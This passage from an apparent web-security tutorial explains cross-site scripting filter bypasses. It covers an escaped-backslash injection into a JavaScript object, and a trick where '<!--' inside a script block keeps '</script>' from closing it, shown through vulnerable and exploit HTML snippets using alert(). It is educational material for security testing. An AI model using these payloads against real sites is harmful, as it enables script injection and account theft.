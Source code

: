 <pre class="language-html" data-title="Success"><code class="lang-html"><strong>Payload 1: anything\
</strong><strong>Payload 2: -alert()}//
</strong>&#x3C;script>
    let a = {first: "anything\", second: "-alert()}//"};
&#x3C;/script>
</code></pre>

#### Escaped `/` bypass using `<!--` comment

When injecting into a script tag that disallows quotes (`"`), you may quickly jump to injecting `</script>` to close the whole script tag and start a new one with your payload. If the `/` character is not allowed, however, you cannot close the script tag in this way.

Instead, we can abuse a lesser-known feature of script contents ([spec](https://html.spec.whatwg.org/multipage/scripting.html#restrictions-for-contents-of-script-elements)), where for legacy reasons, \
a closing script tag (`</script>`) inside `<!--` doesn't actually close the current script. Note that this is in JavaScript syntax, and that this can occur anywhere, like inside of a string. Only once some later input closes the script tag an extra time does it actually close!\
This strange behavior occurs because ([source](https://htmlparser.info/parser/#script-states)):

> 1. Some pages assume they can use the string "`</script>`" inside a script if they enclose the script content in `<!-- … -->`, due to some previous parsing quirks of comment tags.
> 2. Other pages have `<!--` at the start of the script but forget `-->` from the end.

This can cause an interesting exploit as shown in the example below ([source](https://www.creds.nl/2024-07-18-overlooked-xss-vector), [another example](https://x.com/garethheyes/status/1813658752245236105)):

<pre class="language-html" data-title="Vulnerable"><code class="lang-html">&#x3C;script>
  console.log("<a data-footnote-ref href="#user-content-fn-1">INPUT1</a>");
&#x3C;/script>
&#x3C;input type="text" value="<a data-footnote-ref href="#user-content-fn-2">INPUT2</a>">
</code></pre>

<pre class="language-html" data-title="Exploit" data-line-numbers><code class="lang-html">&#x3C;script>
<strong>  console.log("&#x3C;!--&#x3C;script>");
</strong>&#x3C;/script>
<strong>&#x3C;input type="text" value="&#x3C;/script>&#x3C;script>alert()&#x3C;/script>">
</strong></code></pre>

Notice that the closing script tag on line 3 doesn't close it anymore, but instead, only after closing it a second time inside of the attribute. We are then in an HTML context and can write any XSS payload without double-quotes!

{% hint style="info" %}
For more advanced tricks and pitfalls, check out the [javascript](../../../languages/javascript/ "mention") page.
{% endhint %}

### DOM XSS

This is slightly different than previous "injection" ideas and is more focused on what special syntax can make certain "sinks" execute JavaScript code.
